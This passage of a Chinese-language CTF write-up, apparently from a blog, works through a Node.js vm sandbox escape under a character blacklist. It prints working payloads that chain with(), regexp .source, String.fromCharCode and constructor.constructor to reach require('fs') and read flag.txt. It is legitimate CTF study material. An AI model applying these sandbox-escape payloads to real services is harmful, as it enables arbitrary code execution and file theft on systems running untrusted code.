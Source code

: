 VM bypass 的部分很簡單，可以用 `this.constructor.constructor('return ...')()` 來搞定，但是難點在於限制的字元很多，字串相關的都不給用，`.` 跟 `[]` 也不行，`{};>` 也不行，卡了很多東西。嘗試一陣子之後想起用 [with](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with) 也可以來存取屬性，像這樣：

``` js
with(console)log(123)
```

字串的部分可以用 regexp 來繞，像這樣：`/string/.source`。

做一做有想到是不是可以用 decodeURI 來繞一些字元，不過沒有仔細想，賽後發現很多人用這招來解，像是 lebr0nli 的：

``` js
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
``` 

regexp 如果直接變成字串，前後會有兩個 `/`，只要在 regexp 裡面加上 `/\n`，就會跟前面的結合變成這樣：

``` js
//
your_code_here
```

概念跟我之前出的 [XSS challenge](https://blog.huli.tw/2022/02/14/en/intigriti-0222-author-writeup/) 其實滿類似的。

總之，我最後組出的 payload 框架長這樣：

``` js
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
```

只要把 `console.log(1)` 改成想跑的程式碼就行了，而我們想執行的程式碼是：

``` js
return String(process.mainModule.require('fs').readFileSync('flag.txt'))
```

轉成字串那個步驟不一定需要，只是讓 flag 可讀性更好而已。


接著可以利用 `with` 把上面的程式碼轉成：

``` js
with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
```

由於不能有單引號，所以我們可以先把那些變成變數比較好讀，之後再來看怎麼拿掉：

``` js
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
```

現在只需要產生出字串就好，可以用 `String.fromCharCode` 達到這件事：

``` js
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)with(require(k))return(String(readFileSync(n))) // 這邊跟上面都一樣
```

因此最後的 payload 就是把這段程式碼跟剛剛的框架拼在一起，我稍微排版一下比較好讀：

``` js
with(
  /with(String)
    with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
      with(mainModule)
        with(require(k))
          return(String(readFileSync(n)))
  /)
with(this)
  with(constructor)
    constructor(source)()
```
